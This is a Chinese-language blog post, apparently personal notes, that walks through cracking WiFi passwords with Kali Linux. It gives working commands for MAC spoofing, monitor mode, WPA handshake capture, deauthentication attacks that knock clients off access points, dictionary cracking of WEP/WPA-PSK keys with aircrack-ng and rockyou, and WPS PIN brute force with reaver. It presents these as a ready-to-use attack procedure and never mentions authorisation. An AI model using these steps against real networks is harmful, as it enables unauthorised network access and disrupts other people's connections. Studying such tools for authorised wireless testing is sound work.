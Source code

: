 ```yaml
---
title: Kali-Linux破解WIFI
categories:
  - kali
toc: false
date: 2018-11-07 09:05:46
tags:
---
```

摘要暂略。
<!-- more -->

一些参考链接：  
[无线安全专题01--kali破解WPA](https://www.jianshu.com/p/430ae3c978d9)。  
[无线安全专题_破解篇02--kali破解pin码](https://www.jianshu.com/p/a8439e777af7)。  
[Aircrack除破解WiFi密码外的趣味玩法](https://www.freebuf.com/articles/wireless/59809.html)。  
[完全教程 Aircrack-ng破解WEP、WPA-PSK加密利器](http://netsecurity.51cto.com/art/201105/264844.htm)。  

#### 查看无线网络
用`ifconfig`或`ip addr`等命令查看网络接口：
```
root@KL:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 11:22:33:44:55:66 brd ff:ff:ff:ff:ff:ff
    inet 192.168.43.129/24 brd 192.168.43.255 scope global dynamic noprefixroute eth0
       valid_lft 1522sec preferred_lft 1522sec
    inet6 fe80::20c:29ff:fea4:125/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
3: wlan0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 10:20:30:40:50:60 brd ff:ff:ff:ff:ff:ff
4: wlan1: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 1a:2b:3c:4d:5e:6f brd ff:ff:ff:ff:ff:ff
root@KL:~#
```
可知，此时有`wlan0`和`wlan1`两个无线网卡。

#### 修改MAC地址
```shell
macchanger --help
macchanger --mac=XX:XX:XX:XX:XX:XX device
macchanger --random device
# 例
ifconfig wlan0 down
macchanger --random wlan0
ifconfig wlan0 up
```

#### 无线网卡启动监听模式
```shell
airmon-ng <start|stop> <interface> [channel] airmon-ng <check> [kill]
# 例
airmon-ng check kill      # 列出可能的干扰程序并尝试清除它们
airmon-ng                 # 查看所有无线网卡的当前状态
airmon-ng start wlan0     # 在接口(wlan0)上启动监听(monitor)模式
airmon-ng                 # 查看所有无线网卡的当前状态(查看是否启动成功)
# 一般(wlan0)启动监听模式后名字会变为(wlan0mon)
airmon-ng stop  wlan0mon  # 禁用监听模式并返回到托管模式
airmon-ng                 # 查看所有无线网卡的当前状态(查看是否禁用成功)
```

#### 捕获握手包
```shell
airodump-ng [options] <interface name>
--ivs                 : Save only captured IVs
--write      <prefix> : Dump file prefix
-w                    : same as --write
--bssid     <bssid>   : Filter APs by BSSID
--channel <channels>  : Capture on specific channels
# 例
airodump-ng wlan0mon  # 捕获WIFI范围内的无线信息
airodump-ng --ivs --bssid 1a:2b:3c:4d:5e:6f --write ./testData wlan0mon  # 捕获握手包并保存到testData开头的文件中
```
备注：`--ivs`仅保存捕获的IVs报文。可以缩减文件大小。  
备注：可以用`ivstools --convert data.cap data.ivs`把cap文件转为ivs文件以缩减大小。

#### 解除认证攻击
```shell
aireplay-ng [options] <replay interface>
 -a <bssid>
    Set Access Point MAC address.
-c <dmac>
    Set destination MAC address.
-0 <count>, --deauth=<count>
    This attack sends deauthentication packets to one or more clients which are currently associated with a particular access point.  Deauthenticating  clients  can  be done  for  a  number  of reasons: Recovering a hidden ESSID. This is an ESSID which is not being broadcast. Another term for this is "cloaked" or Capturing WPA/WPA2 handshakes by forcing clients to reauthenticate or Generate ARP requests (Windows clients sometimes flush their ARP  cache  when  disconnected).   Of  course,  this attack is totally useless if there are no associated wireless client or on fake authentications.
    这个攻击发送解除认证的数据包给一个或多个客户端(当前与指定AP关联)。期望能捕获WPA/WPA2握手包。
# 例
aireplay-ng -a AP的MAC -c Client的MAC --deauth=3 wlan0mon
```

#### 字段解释
`man airodump-ng`的最下方有这个例子。
```
airodump-ng -c 9 wlan0mon

Here is an example screenshot:

-----------------------------------------------------------------------
CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ BAT: 2 hours 10 mins ][ WPA handshake: 00:14:6C:7E:40:80

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID

00:09:5B:1C:AA:1D   11  16       10        0    0  11  54. OPN              <length: 7>
00:14:6C:7A:41:81   34 100       57       14    1   9  11  WEP  WEP         bigbear
00:14:6C:7E:40:80   32 100      752       73    2   9  54  WPA  TKIP   PSK  teddy

BSSID              STATION            PWR   Rate   Lost   Frames  Probes

00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   11-11     2       14  bigbear
(not associated)   00:14:A4:3F:8D:13   19   11-11     0        4  mossy
00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1    11-2     0        5  bigbear
00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   36-24     0       99  teddy
-----------------------------------------------------------------------
  BSSID: MAC地址。
    PWR: 信号强度。数字越大(负数越接近0)信号越强。-1表示无效值。
    RXQ: 略。
Beacons: AP(access point)发送的信号浮标的数量。最低速率下每个AP每秒大约发送10个信标。
  #Data: 捕获的数据包的数量。
    #/s: 每秒的数据包的数量(测量最近10秒内的数据)。
     CH: channel号(从信标包中取得)。
     MB: AP支持的最大速度。不用管它。常见值：11、22、54、54.、54e、54e.、。
    ENC: 正在使用中的加密算法。
 CIPHER: 检测到的加密解密引擎？
   AUTH: 使用的身份验证协议。
  ESSID: 所谓的SSID，WIFI的名字。
STATION: (连到AP上(和)没有连到AP上)的client的MAC地址。
   Rate: 速率。第1个数字：AP到client的最新速率；第二个数字：client到AP的最新速率。
   Lost: 来自client的包的丢失的数量。
```

#### 恢复WEP/WPA-PSK密码
```
aircrack-ng [options] <.cap / .ivs file(s)>
-b <bssid> : target selection: access point's MAC
-p <nbcpu> : # of CPU to use  (default: all CPUs)
-q         : enable quiet mode (no status output)
-l <file>  : write key to file
-w <words> : path to wordlist(s) filename(s)
             Here is a list of wordlists: 
             http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists
# 例
aircrack-ng -b AP的MAC -w 字典文件  cap文件或ivs文件
```
在[Aircrack-ng](http://www.aircrack-ng.org/)的[Windows](https://download.aircrack-ng.org/aircrack-ng-1.4-win.zip)能下载到`aircrack-ng.exe`程序。然后我们就可以在Windows下进行破解了。Windows下可以如下执行：
```bat
cd .\aircrack-ng-1.4-win\bin\32bit\
aircrack-ng.exe -b 1A:2B:3C:4D:5E:6F -w C:\字典\dict.txt  D:/data/testData*.cap
```

#### KaliLinux自带的字典
[wordlists | Penetration Testing Tools](https://tools.kali.org/password-attacks/wordlists)。  
```shell
字典路径:  /usr/share/wordlists/rockyou.txt.gz
# 解压命令
gunzip -c /usr/share/wordlists/rockyou.txt.gz > ./rockyou.txt
```

#### 爆破WPS的pin码
扫描WIFI。WPS的Lck为No的都可以爆破试试。
```shell
wash --help
# 例
wash -i wlan0mon
```
WPS的pin码的爆破的命令：
```shell
reaver -i <interface> -b <target bssid> -vv
-i, --interface=<wlan>          Name of the monitor-mode interface to use
-b, --bssid=<mac>               BSSID of the target AP
-c, --channel=<channel>         Set the 802.11 channel for the interface (implies -f)
-v, --verbose                   Display non-critical warnings (-vv or -vvv for more)
-d, --delay=<seconds>           Set the delay between pin attempts [1]
-t, --timeout=<seconds>         Set the receive timeout period [10]
-S, --dh-small                  Use small DH keys to improve crack speed
# 例
reaver -i wlan0mon -b 00:14:6C:7A:41:81 -S -v
```

#### 其他

* 我该怎么装软件？  
`Kali Linux`和`Ubuntu`都是`Debian`的分支。你可以`apt-get install gcc`安装软件。  

* 怎么禁用`Automatic suspend`？
```
Automatic suspend
Computer will suspend very soon because of inactivity.
```
The solution is to disable automatic suspend:
```
Open GNOME Control Center, go to Power tab (or simply gnome-control-center power)
In Suspend & Power Button set Automatic suspend, to Off when Plugged In.
```
